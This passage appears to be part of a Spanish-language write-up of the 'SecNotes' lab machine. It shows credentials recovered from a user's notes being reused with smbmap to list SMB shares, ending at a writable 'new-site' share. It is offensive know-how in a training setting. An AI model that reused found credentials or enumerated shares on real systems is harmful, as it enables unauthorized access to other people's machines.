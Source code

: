 Una vez hecho me logeo como Tyler.

<img class="img" src="/assets/img/machines/SecNotes/11.png" width="1200">

Revisando las notas de tyler encuentra la siguiente información.

<img class="img" src="/assets/img/machines/SecNotes/12.png" width="600">

# Shell como Tyler

La nota parece ser una clave y usuario por lo que intentaré usarla en el smb.

```bash
❯ smbmap -H 10.129.145.213 -u tyler -p '92g!mA8BGjOirkL%OG*&'
[+] IP: 10.129.145.213:445      Name: 10.129.145.213                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        new-site                                                READ, WRITE
```

Tenemos acceso a con permisos de escritura y lectura en la carpeta `new_site`.

```bash
❯ smbmap -H 10.129.145.213 -u tyler -p '92g!mA8BGjOirkL%OG*&' -r new-site
[+] IP: 10.129.145.213:445      Name: 10.129.145.213                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        new-site                                                READ, WRITE
        .\new-site\*
        dr--r--r--                0 Mon Jul 31 11:42:06 2023    .
        dr--r--r--                0 Mon Jul 31 11:42:06 2023    ..
        fr--r--r--              696 Thu Jun 21 16:15:36 2018    iisstart.htm
        fr--r--r--            98757 Thu Jun 21 16:15:38 2018    iisstart.png
```
